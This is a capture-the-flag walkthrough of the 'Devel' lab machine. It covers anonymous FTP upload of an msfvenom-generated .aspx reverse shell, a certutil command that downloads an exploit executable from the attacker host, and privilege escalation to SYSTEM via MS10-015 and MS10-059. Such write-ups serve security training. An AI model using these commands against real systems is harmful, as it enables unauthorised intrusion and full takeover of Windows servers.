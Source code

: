 # Devel

### Reconnaissance

port 21 FTP Microsoft ftpd

- ftp-anon: Anonymous FTP login allowed (FTP code 230)  
- contents:  
03-18-17  02:06AM DIR aspnet_client  
03-17-17  05:37PM 689 iisstart.htm  
03-17-17  05:37PM 184946 welcome.png  
ftp-syst: Windows_NT  

port 80 HTTP Microsoft IIS httpd 7.5

- http-title: IIS7  
- http-server-header: Microsoft-IIS/7.5  

### Exploitation

Anonymous FTP access allows us to download and upload files to the server.

The HTTP server is running an ASP.NET website on IIS 7, and the FTP server is hosting the welcome page for 
the HTTP server. Uploading an .aspx shell and navigating to http://10.10.10.5/shell.aspx gives us remote code 
execution

**Metasploit**

32 bit meterpreter shell

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.2 LPORT=4444 -f aspx -o shell.aspx`

**Manual**

32 bit generic shell

`msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.2 LPORT=4444 -f aspx -o shell.aspx`

### Privesc

**Metasploit**

Running post/multi/recon/local_exploit_suggester shwos us the target is vulnerable to MS10-015

Use the exploit/windows/local/ms10_015_kitrap0d module targeting our meterpreter session to get a SYSTEM shell
on the target

**Manual**

Run windows-exploit-suggester.py with the output of systeminfo

```
python2.7 windows-exploit-suggester.py --update
python2.7 windows-exploit-suggester.py --database db.xls --systeminfo systeminfo.txt
```

Using kitrapod isn't possible from the manual shell, working our way down the list of exploits we see the 
target is vulnerable to MS10-059. Chimichurri allows us to run an exe to gain a remote shell as SYSTEM

Use certutil to download the MS10-059 Chimichurri.exe exploit from the attacking machine

`C:\Windows\Temp> certutil -urlcache -f http://10.0.0.2/Chimichurri.exe ms.exe`

Start a netcat listener and run the exe to get a SYSTEM shell

`C:\Windows\Temp> ms.exe 10.0.0.2 5555`
